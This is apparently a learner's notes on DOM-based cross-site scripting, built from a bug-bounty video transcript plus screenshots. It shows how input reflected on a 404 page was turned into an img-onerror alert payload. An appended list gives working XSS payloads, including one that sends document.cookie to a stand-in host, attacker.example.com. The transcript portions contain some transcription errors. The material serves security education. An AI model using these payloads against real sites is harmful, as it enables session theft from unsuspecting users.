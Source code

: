 DOM based xss







---

1
00:00:00,180 --> 00:00:04,860
One of my favorite things to do when it comes out here looking for bugs in the Bugs bounty program is

2
00:00:05,040 --> 00:00:06,770
observing there for fore pages.

3
00:00:06,780 --> 00:00:09,000
So we're going to give it a invalid path.

4
00:00:09,580 --> 00:00:10,410
Let's actually give a test123.
![[Screenshot From 2025-03-25 15-21-35.png]]
![[Screenshot From 2025-03-25 15-22-47.png]]
6
00:00:11,940 --> 00:00:16,600
And it looks like it says, hey, we could not find /test123 .

7
00:00:16,650 --> 00:00:20,070
This is what we're giving it right now in the address bar to /test123

8
00:00:20,430 --> 00:00:22,970
And we're going to chase it and see where it shows. in dev tools(elements) 
![[Screenshot From 2025-03-25 15-24-09.png]]
9
00:00:23,010 --> 00:00:25,380
So it looks like we're in the page not found.

10
00:00:25,380 --> 00:00:28,350
We're in a div class, blah, blah.
/test123

12
00:00:30,990 --> 00:00:33,540
This is the only place we could actually find this.

13
00:00:33,870 --> 00:00:35,220
But can we add more characters?

14
00:00:35,370 --> 00:00:38,670
So what happens if I add the sign ( < ) right here. /test123<

15
00:00:39,030 --> 00:00:45,500
in dev tools in elements tab , Right click and HTML and it looks like this one is actually getting encoded and that we can't exploit it
![[Screenshot From 2025-03-25 15-26-36.png]]


17
00:00:45,660 --> 00:00:50,190
So it's a good indication that this one is not invulnerable, but it's good to know that, hey, they reflect

18
00:00:50,190 --> 00:00:52,940
text within the fore page.

19
00:00:52,980 --> 00:00:54,030
There's also more other tricks.

20
00:00:54,030 --> 00:00:56,330
You can, you can try adding a random parameter.

21
00:00:56,340 --> 00:01:00,990
So I'm going to put in a   `/test123?nahamsecparam=test456`

23
00:01:02,490 --> 00:01:05,850
This time I'm going to let this go when I look test456
![[Screenshot From 2025-03-25 15-29-46.png]]
24
00:01:06,330 --> 00:01:11,790
So it looks like whatever we put in the address bar, if it's not found, it's reflected within the

25
00:01:12,060 --> 00:01:12,840
body of this.

26
00:01:12,840 --> 00:01:16,260
So let's add another script tag maybe or something.
`/test123?nahamsecparam=test456<h1>test123`

27
00:01:16,740 --> 00:01:18,630
We just want to see if it's going to render it or not.

28
00:01:19,210 --> 00:01:21,810
And it was like somehow we were able to break the logic.
![[Pasted image 20250326105427.png]]
29
00:01:21,810 --> 00:01:27,510
So it looks like there is some filtering happening, but because of how they are filtering it, it completely

30
00:01:27,510 --> 00:01:30,090
ignored anything that was assigned to this fake parameter.

31
00:01:30,270 --> 00:01:35,340
And they let us actually inject this additional tag in there.

32
00:01:35,340 --> 00:01:39,720
So the next step is to make it into a JavaScript payload or in its payload.

33
00:01:40,030 --> 00:01:40,680
And you can do that.

34
00:01:40,680 --> 00:01:42,090
A number of words can use image.

35
00:01:42,090 --> 00:01:44,460
Can you script whatever one you want to use?

36
00:01:44,460 --> 00:01:52,320
My favorite go to is just an image source X on error equals alert, and that should give us an XSS.
`/test123?nahamsecparam=test456<img src=x onerror=alert()> 
also this is the encoded version 
`/test123?nahamsecparam=test456%3Cimg%20src%3Dx%20onerror%3Dalert()%3E`


37
00:01:52,500 --> 00:01:56,400
If you're not familiar with JavaScript, why this payload works is what's happening here is we're saying,

38
00:01:56,400 --> 00:02:02,220
hey, using JavaScript, I want you to load a image called X if this file doesn't exist.

39
00:02:02,490 --> 00:02:05,810
And I want you to give me an alert because there's an error.

40
00:02:05,820 --> 00:02:10,800
So if there's an error, this follows an exists Pop-Up Alert, which is a function within JavaScript.

41
00:02:11,300 --> 00:02:15,750
We can also do other stuff like document, location, document, cookie and so on.

---
JavaScript payload examples that incorporate additional DOM objects (such as document, location, and document.cookie) to demonstrate potential impacts. These payloads are intended for educational testing in controlled environments only:

1. **Exfiltrate Cookies via an Alert:**
    
    ```html
    <script>alert(document.cookie);</script>
    ```
    
    _This payload retrieves the document’s cookies and displays them in an alert box._
    
2. **Redirect the Browser to an External URL with Cookies:**
    
    ```html
    <script>location.href='https://attacker.example.com/steal?cookie=' + encodeURIComponent(document.cookie);</script>
    ```
    
    _This payload sends the document's cookies as a URL parameter to an external domain and redirects the browser there._
    
3. **Log Document Content:**
    
    ```html
    <script>console.log(document.documentElement.innerHTML);</script>
    ```
    
    _This payload logs the full HTML content of the page to the browser's console (for testing purposes)._
    
4. **Dynamic Content Injection:**
    
    ```html
    <script>
      document.body.innerHTML += "<div style='background:red;color:white;'>Injected Content: " + document.cookie + "</div>";
    </script>
    ```
    
    _This payload appends a new div element to the page's body that displays some text along with the document's cookies._
    

Remember:

- These payloads are for demonstration and testing only.
    
- Use them only in controlled environments and with proper authorization.
    
- Always ensure you have permission before testing or exploiting vulnerabilities.

---
42
00:02:15,750 --> 00:02:16,860
We'll cover these later on.

43
00:02:16,980 --> 00:02:21,210
It also gave us our session, which doesn't matter in this case because I'm not logged in.

44
00:02:21,220 --> 00:02:28,230
I'm not exploiting another user, but it is very handy to show a real impact, especially if you can

45
00:02:28,230 --> 00:02:29,970
actually store cookies from other users.

46
00:02:30,480 --> 00:02:31,380
So that was a good one.

47
00:02:31,670 --> 00:02:33,090
We know there's two XSS here.

48
00:02:33,330 --> 00:02:34,370
==We're on fire here.==

==49==
==00:02:34,650 --> 00:02:35,510==
==This is a good place.==

==50==
==00:02:35,520 --> 00:02:38,340==
==When you build momentum in bug bounties, you want to keep pushing.==

==51==
==00:02:38,340 --> 00:02:42,870==
==If you see a vulnerability type occurring more than once or twice, you want to keep digging through==

==52==
==00:02:42,870 --> 00:02:43,830==
==and finding more of those.==